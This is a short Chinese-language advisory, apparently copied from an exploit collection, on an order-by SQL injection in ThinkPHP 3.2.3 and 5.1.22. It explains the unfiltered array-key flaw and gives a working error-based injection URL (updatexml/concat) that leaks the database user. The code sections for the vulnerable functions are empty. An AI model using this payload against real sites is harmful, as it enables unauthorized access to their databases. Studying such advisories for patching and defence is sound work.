



# Thinkphp 3.x order by 注入漏洞

> 原文：[http://book.iwonder.run/0day/Thinkphp/ThinkPHP3/Thinkphp 3.x order by 注入漏洞.html](http://book.iwonder.run/0day/Thinkphp/ThinkPHP3/Thinkphp 3.x order by 注入漏洞.html)

## 一、漏洞简介

ThinkPHP 在处理 order by 排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中 key 值作安全过滤处理，攻击者可利用 key 构造 SQL 语句进行注入，该漏洞影响 ThinkPHP 3.2.3、5.1.22 及以下版本。

## 二、漏洞影响

ThinkPHP 3.2.3、5.1.22 及以下版本。

## 三、复现过程

ThinkPHP3.2.3 漏洞代码（/Library/Think/Db/Driver.class.php）：



ThinkPHP 5.1.22 漏洞代码（framework/library/think/db/Query.php）：



从上面漏洞代码可以看出，当$field 参数为关联数组（key-value）时，key 值拼接到返回值中，SQL 语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下 URL 即可进行漏洞利用：

```
http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1 
```



## 参考链接

> [https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect](https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect)

